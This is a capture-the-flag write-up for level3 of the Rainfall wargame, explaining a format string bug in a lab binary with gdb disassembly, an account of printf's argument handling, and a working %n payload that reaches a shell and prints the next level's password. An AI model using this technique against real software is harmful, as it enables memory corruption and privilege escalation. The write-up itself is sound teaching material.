 # Rainfall

## Level3

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v> # Call function v
   0x08048525 <+11>:    leave  
   0x08048526 <+12>:    ret    
End of assembler dump.
```

```sh
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax #Load stdin file pointer into eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp) # Place stdin as 3rd argument for fgets
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp) # Place size (512) as 2nd argument for fgets
   0x080484be <+26>:    lea    -0x208(%ebp),%eax # Load buffer of size (512) into eax
   0x080484c4 <+32>:    mov    %eax,(%esp) # Place buffer as 1st argument for fgets
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt> # call fgets(buffer, 512, stdin)
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax # Load buffer again into eax
   0x080484d2 <+46>:    mov    %eax,(%esp) # Place buffer as argument for printf
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> #printf(buffer)
   0x080484da <+54>:    mov    0x804988c,%eax # load global_variable into eax
   0x080484df <+59>:    cmp    $0x40,%eax # global_variable == 0x40 ?
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax # TRUE
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave # FALSE
   0x08048519 <+117>:   ret
End of assembler dump.
```

```sh
   0x080484da <+54>:    mov    0x804988c,%eax # load global_variable into eax
                                   ^
```

Here we have the address of the variable we need to override

## Format String Vulnerability

We can exploit printf to do it since the buffer used by fgets is the only argument provided to printf without a format string

```c
fgets(buffer, 512, stdin);
printf(buffer);
```

We can use the format parameters (%d, %s, %n, %x, ...) and the behavior of variadic arguments to our advantage

*First let's remember that function parameters are always pushed to the stack first before being accessible by the function*

`printf()` is usally composed of 6 things

- a format string called fmt
- additionnal parameters
- va_list ptr
```c
/* Create an undefined pointer */ 
char *ptr;
```
- va_start(ptr, fmt)
```c
/* Make the pointer point to the address of the format string and then move it to the next parameter */
ptr = (char *)&fmt;
ptr += sizeof(fmt);
```
- va_arg(ptr, int) <sup><sub>Can use any type instead of int</sub></sup>
```c
/* Retrieve the current value of ptr and move the pointer to the next parameter */
int value = *(int *)ptr;
ptr += sizeof(int);
```
- va_end
```c
/* Clean up if needed, usually just set the pointer back to null */
ptr = null;
```

Basically if we were to call printf like this:

```c
printf("%x");
```

It will try to retrieve his second parameter (the first one being the buffer fmt) and print its value as an 8 digit padded hexadecimal number,
since no additionnal parameters were provided it would result in undefined behavior
- Printing other values from the stack
- Crash if the accessed memory is invalid

Now let's try to exploit this:

```sh
level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p #user input
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 #printf
```

- "AAAA" is the string we wrote at the beginning of fmt
- 0x200 is a random value on the stack found by the 1st %p
- 0xb7fd1ac0 is another random value on the stack found by the 2nd %p
- 0xb7ff37d0 is another random value on the stack found by the 3rd %p
- **0x41414141 is the hexadecimal value of "AAAA"** (0 to 4th bytes of fmt)
- 0x20702520 is the hexadecimal value of " %p " (4 to 8th bytes of fmt)
- 0x25207025 is the hexadecimal value of "%p %" (8 to 12th bytes of fmt)

What happened here??

printf tried to retrieve arguments on the stack until it reached back to his first parameter being fmt
Meaning we can use this in order to provide a target memory address instead of using "AAAA" with the additional use of the `%n` specifier and the positional parameter `$`

We already know the position of our buffer on the stack since we overwritten the 4th %p

`%n specifier`**: The number of characters written so far is stored into the integer pointed to by the corresponding argument.**

`$`**: With positional parameters, you can specify the position of the argument to be used**
Exemple

```c
printf("%3$s %1$s %2$d", "world", 42, "hello");
//This will print "hello world 42"
```

Now that we have explained everything let's start the exploit:
- `0x804988c` is the address of the variable we want to overwrite (`\x8c\x98\x04\x08` in little endian)
- our fmt string is self accessible from printf as it's `0` and "`4th parameter`"
- We need our variable to be equal to `0x40` (64 in decimal)

```sh
"\x8c\x98\x04\x08aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%4$n"
```

We first write the targeted address, then we fill with 60 garbage byte, we target the 4th parameter which is the address we wrote at the beginning of fmt and we use the %n modifier to change the value of the targeted address to the total written bytes which is 64 ( the 4 bytes of the address + the 60 gargage 'a')

This result in setting the variable value to 64 and exploit the binary successfully

```sh
level3@RainFall:~$ ( python -c "print('\x8c\x98\x04\x08' + 'a' * 60 + '%4\$n')" ; cat ) | ./level3 
��aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```